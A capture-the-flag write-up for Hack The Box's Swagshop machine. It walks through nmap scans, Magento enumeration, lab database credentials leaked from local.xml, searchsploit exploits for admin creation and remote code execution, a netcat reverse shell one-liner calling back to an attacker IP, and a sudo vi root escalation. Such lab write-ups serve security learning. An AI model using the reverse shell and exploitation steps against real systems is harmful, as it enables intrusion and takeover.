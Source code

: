 # Hack the Box - Swagshop
```CSS
Machine IP: 10.10.10.140 - Linux

Tags: magento
Vulnerabilities:
  - Magento SQL Injection
  - Magento PHP Object Injection
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.140 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.140
Host is up (0.20s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 22,80 10.10.10.140 -oN nmap.deep

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/230385940-576fb9d4-0154-4a75-af4c-ffeae45b4231.png)

---

## Magento
- Tool: [magescan](https://github.com/steverobbins/magescan)
```CSS
▶ magescan.phar scan:all http://swagshop.htb
```
- Magento Version Information
![image](https://user-images.githubusercontent.com/83878909/230405839-266cdc0e-97b7-4b08-bd5a-0b2afc29502f.png)
- Sensitive Files
- Path: `http://swagshop.htb/app/etc/local.xml`
![image](https://user-images.githubusercontent.com/83878909/230406379-b3b0b66c-61ee-441d-93c7-dc25d708673c.png)
![image](https://user-images.githubusercontent.com/83878909/230406550-166475e5-9eb4-4f61-a20a-02d9a99e6496.png)
- MySQL Credentials: `root:fMVWh7bDHpgZkyfqQXreTjU9` | DB Name: `swagshop`

---

### Exploit
  - Searchsploit
![image](https://user-images.githubusercontent.com/83878909/230573995-d8195c5b-bb3f-43aa-922d-b665285d5004.png)
  - Modify exploit
![image](https://user-images.githubusercontent.com/83878909/230575074-34a8d22c-9187-4d74-8831-77f5f98c8340.png)
  - Run Exploit
![image](https://user-images.githubusercontent.com/83878909/230575192-080770c9-d1bc-4cc1-92ac-b2b19458de11.png)
  - Log in page URL: `https://swagshop.htb/index.php/admin`
  - Log in to Admin Panel with creds: `forme:forme`
![image](https://user-images.githubusercontent.com/83878909/230575373-03c3995f-6d22-4d80-b6f0-de065987d98a.png)
  - Admin Panel Accessible
![image](https://user-images.githubusercontent.com/83878909/230575645-6d0c0532-f73f-4b5c-a27e-833c806b0dd7.png)

  - Searchsploit
![image](https://user-images.githubusercontent.com/83878909/230576847-3317eaae-ea23-4d19-9f95-53fb7da677db.png)
  - Modify Exploit (username, password and install date) The original exploit did not work, modified exploit is in my Exploits repository.
  - Retrieve install date: `http://swagshop.htb/app/etc/local.xml`
![image](https://user-images.githubusercontent.com/83878909/230707818-894e563e-de27-4c7a-b528-cf3ec299b1cc.png)
  - Run Exploit
  - Reverse Shell(Bash): `"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9001 >/tmp/f"`
![image](https://user-images.githubusercontent.com/83878909/230712785-8d0eb9cb-b64b-458b-9764-0cee1e3cedfc.png)

---

### Privilege Escaltion
  - Run: `sudo -l`
![image](https://user-images.githubusercontent.com/83878909/230713433-59c5b31e-e861-4602-b6dd-79247b41906f.png)
  - Can execute any file using `vi` as root located in `/var/www/html/*`.
  - Create a file `a` or with any name, not necessarily `a` using sudo.
  - From within `Vi` spawn a sshell as bash. 
![image](https://user-images.githubusercontent.com/83878909/230713860-7540abca-3e4d-4f80-b657-0c4b132fceb1.png)

---
